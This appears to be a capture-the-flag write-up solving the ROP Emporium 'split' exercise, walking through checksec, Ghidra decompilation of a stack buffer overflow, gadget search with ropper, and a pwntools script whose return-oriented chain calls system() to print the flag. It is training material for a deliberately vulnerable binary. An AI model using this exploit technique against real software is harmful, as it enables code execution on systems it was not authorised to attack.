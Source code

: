# Split

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ checksec split
[*] '/home/vein/rop_emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./split     
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack

## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("split by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```
```c

void usefulFunction(void)

{
  system("/bin/ls");
  return;
}
```
We open Ghidra and we saw that a pwnme() function is called by the main.
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long
and the read() takes up to 96 = 0x60

# Exploitation
Challeneg description talks about a string that we maybe need to solve it.
We found it with rabin2 but we also can with Ghidra and with pwndbg.
It's the "/bin/cat flag.txt"
```asm
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ rabin2 -z split  
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
What we want to do is to navigate to usefulFunction() function and put inside the system()
the string "/bin/cat flag.txt" to take the flag.
To achieve this we want a rop gadget to pop it into the stack
```asm
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ropper -f split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;
```

So, now we are ready to craft our payload.
Here is the python script
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./split', checksec=False)
p = process()
context.log_level = 'info'

offset = b'a' * 40

pop_rdi = 0x4007c3      # pop rdi; ret;
bin_cat = 0x601060      # /bin/cat "flag.txt"
system_addr = 0x40074b  # and the system()

payload = offset
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system_addr)

p.sendlineafter(b'>', payload)
log.info(p.recvuntil(b'}')) # to receive only until the end of the flag
```
```console
┌──(vein㉿vein)-[~/rop_emporium/split]
└─$ ./exploit.py                      
[+] Starting local process '/home/vein/rop_emporium/split/split': pid 8091
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/home/vein/rop_emporium/split/split' (pid 8091)
```
